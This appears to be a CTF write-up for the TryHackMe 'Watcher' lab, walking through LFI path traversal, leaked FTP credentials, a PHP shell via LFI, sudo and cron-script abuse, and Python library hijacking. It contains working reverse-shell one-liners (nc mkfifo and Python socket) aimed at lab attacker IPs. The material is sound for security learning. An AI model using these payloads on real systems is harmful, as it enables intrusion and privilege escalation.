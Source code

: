 # 67 - Watcher (LFI RCE, Python custom library hacking)

Room Link --> [https://tryhackme.com/room/watcher](https://tryhackme.com/room/watcher)

### Enumeration

```
nmap -Pn -n -vv 10.10.177.151 -p- -sV

21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### Flag 1

Navigating to `/robots.txt`&#x20;

```
User-agent: *
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

### Flag 2

From the hint we can see a reference to LFI.

Navigating to [http://watcher.thm/post.php?post=/../../../../etc/passwd](http://watcher.thm/post.php?post=/../../../../etc/passwd)

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see 3 users (will, mat, toby) :(

SO i decided to use SecsLists LFI list to bruteforce and see if i can be able to read any file.

`/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt` .

Then i landed on this:

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i tried to read this file and it worked.

Navigating to [http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt](http://watcher.thm/post.php?post=secret\_file\_do\_not\_read.txt)

{% code overflow="wrap" %}
```bash
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ---------- 

# ftp crendentials
ftpuser : givemefiles777
```
{% endcode %}

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Login via ftp and got flag2

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

#### LFI RCE via Abusing Upload Functions

This was provided as a hint --> [blog](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

{% hint style="info" %}
Again, our goal is to upload an image with PHP commands included. We will use it to append as a comment our PHP command.
{% endhint %}

I our own case we are able to upload a php file directly from the ftp server.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Navigate to: [http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php](http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php)

And i got shell.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 3

We find flag3 in `/var/www/html/more_secrets_a9f10a` dir.

### Flag 4

#### Priv Esc to Toby

`sudo -l` - we can execute all cmds as Toby.

`sudo -u toby /bin/bash` - and we are Toby.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 5

We see a cronjob running as user Mat.

We also have RW permission on the cow.sh file. So we modify it with a rev shell.

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9001 >/tmp/f' > cow.sh`&#x20;

Setup nc and we get a shell as Mat.

<figure><img src=".gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Flag 6

#### Priv Esc to Will

So `sudo -l` we can run a python script as user Will.

We found 2 scripts inside: cmd.py and will\_script.py. Reading the will\_script.py we see that it is a filter script. It restricts the user from running commands other than ls, id and cat /etc/passwd commands. It uses a python library named cmd. The library asks for a numeric entry and then it runs one of the three command mentioned earlier. Since we have library inside the same directory as the script, we can hijack the library to run a reverse shell python script.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we will use the echo command to insert the python reverse shell script inside the python library script is using i.e., cmd.py. After doing so, we will run a netcat listener on the same port that we mentioned inside the reverse shell script. Now all that is left is to run the python script will\_script.py as will user using sudo.

echo 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.10.73.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> /home/mat/scripts/cmd.pysudo -u will /usr/bin/python3 /home/mat/scripts/will\_script.py \*

<figure><img src="https://1.bp.blogspot.com/-73AhQIG2Mqc/YKqw_dMTW0I/AAAAAAAAwE0/qKfJbi4XISs4NvslUsvYaQ-Tea4m6lLjgCLcBGAsYHQ/s16000/22.png" alt=""><figcaption></figcaption></figure>

After running the script as will user, we get back to our local machine where we ran the netcat listener earlier.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root.

So there is a backup dir in the /opt dir. There is a ssh priv key in there it belongs to root.

Done!
